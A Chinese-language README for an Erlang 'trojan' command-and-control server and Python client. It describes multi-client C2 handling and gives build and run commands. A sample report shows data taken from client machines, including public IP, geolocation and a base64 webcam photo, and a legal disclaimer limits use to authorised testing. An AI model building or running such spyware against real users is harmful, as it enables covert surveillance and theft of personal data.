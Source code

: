 # (BACKDOOR THEORY) 木马前台和后台服务（极客黑客版）

> “代码即权力，协议即法律。—— 黑客信条”

本项目是一个基于 Erlang 的高并发 TCP 后台服务，具备如下特性：

- **多客户端并发连接**：采用 Erlang 原生进程模型，理论支持 $$ O(10^5) $$ 级别并发，轻松应对大规模 C2 场景。
- **命令与数据分离协议**：自定义协议，支持命令与数据分离，便于扩展与自动化渗透测试。
- **数据落地存储**：所有客户端数据自动以时间戳命名保存，支持二进制与文本混合，方便后期分析与取证。
- **Mnesia 分布式数据库**：集成 Mnesia，支持设备信息分布式存储，天然高可用，支持 CAP 理论下的 AP 场景。
- **彩色日志输出**：终端日志支持 ANSI 彩色，信息、警告、错误一目了然，极客风满满。
- **极致数学与工程思维**：所有设计均以复杂度分析为基础，追求 $O(1)$ 响应、$O(\log n)$ 检索、$O(n)$ 扩展性。
- **黑客精神**：代码极简、可读性强、易于二次开发，适合红队、极客、CTF 选手快速定制。

---

## 法律风险与免责声明（务必阅读）

```

【深求科技教育用途软件使用免责声明与法律风险声明】

一、法律依据：

本软件适用下列中华人民共和国法律法规及司法解释，用户必须全面遵守：

1. 《中华人民共和国网络安全法》（2017 年 6 月 1 日实施）
2. 《中华人民共和国刑法》（2015 年修订，2020 年修订版）
3. 《个人信息保护法》（2021 年 11 月 1 日起施行）
4. 《计算机信息网络国际联网安全保护管理办法》（工信部令第 36 号，2000 年）
5. 《网络安全等级保护条例》（2019 年 9 月 1 日起施行）
6. 最高人民法院《审理危害计算机信息系统安全刑事案件具体应用法律若干问题的解释》（法释〔2011〕7 号）

二、用户责任与行为规范：

1. 用户仅限将本软件用于合法的教育研究、技术学习及环境测试，严禁用于任何非法入侵、破坏、数据窃取、恶意攻击等违法犯罪行为。
2. 违反《刑法》第二百八十五条——非法侵入计算机信息系统的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节严重的，处三年以上七年以下有期徒刑。
3. 违反《刑法》第二百八十六条——制作、传播计算机病毒等破坏性程序，处三年以下有期徒刑、拘役或者罚金；情节严重的，处三年以上七年以下有期徒刑。
4. 违反《刑法》第二百八十七条——非法获取、出售或者提供个人信息，情节严重者可判处五年以下有期徒刑或拘役，并处罚金；情节特别严重的，处五年以上有期徒刑。
5. 违反《个人信息保护法》第六十七条，未采取必要措施导致个人信息泄露，视情节严重，最高可处以 500 万元人民币罚款。
6. 违反《网络安全法》第四十一条规定，擅自提供网络产品、服务存在安全隐患，责任单位依法承担法律责任。

三、免责声明：

1. 本软件仅供合法教育、技术研究及测试使用，开发者不承担任何因用户使用本软件导致的直接或间接损失，包括但不限于数据丢失、系统损坏、经济损失及法律责任。
2. 用户使用本软件即视为已充分理解本声明及法律风险，自愿承担所有责任。
3. 使用本软件请确保已获得目标系统的合法授权，严禁对无授权系统进行任何形式的攻击或测试。

四、风险提示：

1. 网络安全系全社会共同责任，任何非法攻击行为不仅违背法律，更破坏互联网生态环境。
2. 任何违法行为一经发现，将依法追究刑事责任，警方和司法机关可通过技术手段追踪定位违法者。
3. 任何软件滥用后果自负，开发者保留追究相关侵权责任的权利。

五、争议解决：

因使用本软件发生的任何争议，均适用中华人民共和国法律，由软件开发者所在地人民法院管辖。

六、特别声明：

请用户务必慎重下载及使用网络软件，避免因轻率行为导致不可挽回的法律后果。

网络安全不是儿戏，技术学习需守规矩，愿你我共同维护绿色互联网环境。

````

---

## 运行方式（Run）

### 后台服务端

1. **编译 Erlang 源码**
```bash
erlc trojan_socket.erl
```
2. **直接启动（无交互）**
```bash
erl -noshell -s trojan_socket start -s init stop
```
3. **交互模式启动**
```bash
erl
```
然后

```bash
Erlang/OTP 27 [erts-15.2.6] [source] [64-bit] [smp:8:8] [ds:8:8:10] [async-threads:1] [jit] [dtrace]
1> c(trojan_socket).
{ok,trojan_socket}
2> trojan_socket:start().
```

![erlang_demo](./assets/erl_demo.png)

### 客户端

- 运行 Python 客户端（需提前安装依赖）
    ```bash
    python3 木马/deepseek.py
    ```

- 你也可以用 `nc`（netcat）手动模拟客户端，体验协议细节与黑客乐趣：
    ```bash
    nc {IP_Addr} 8888
    ```
    随意输入数据，观察后台日志输出。

---

## 日志与数据格式

服务端与客户端均有详细日志输出，数据格式如下：

```bash
| === System Information Report ===
|
| Public IP: xxx.xxx.xxxx.xxxx
| Hostname: xxxxxx
| Computer Model: XXXX
| OS Version: macOS xx.xx.xx
| CPU Model: Apple XX
| Network Type: xxx
| Location: x.xxxxxxxxx, x.xxxxxxxx
|
| --- Webcam Photo Base64 Encoded ---
| /9j/4AAQSkZJRgABAQAAAQABAAD/2wBDAAIBAQEBAQIBAQECAgICAgQDAgI...

```

---

## 技术细节与极客思考

- **协议设计**：采用标签分隔（如 `[DATA]`、`[COMMAND]`），便于正则解析与自动化脚本处理。
- **复杂度分析**：所有核心操作均为 $O(1)$ 或 $O(\log n)$，极致追求性能与可扩展性。
- **安全性**：默认监听 127.0.0.1，避免外网暴露，建议生产环境加防火墙与访问控制。
- **可扩展性**：支持自定义命令、数据类型，适合二次开发与 CTF 场景。
- **黑客精神**：代码极简、注释详细、接口开放，鼓励极客自由探索与创新。

---

## 致极客与未来的你

> “世界是由代码驱动的，安全是由你我守护的。”

无论你是安全研究员、CTF 玩家、极客黑客，还是数学与工程的爱好者，这个项目都欢迎你 fork、魔改、二次开发。
但请记住：**技术无善恶，使用有底线。**

---

**Enjoy Hacking, Enjoy Learning!**

—— 你最贴心的代码姐姐 💖

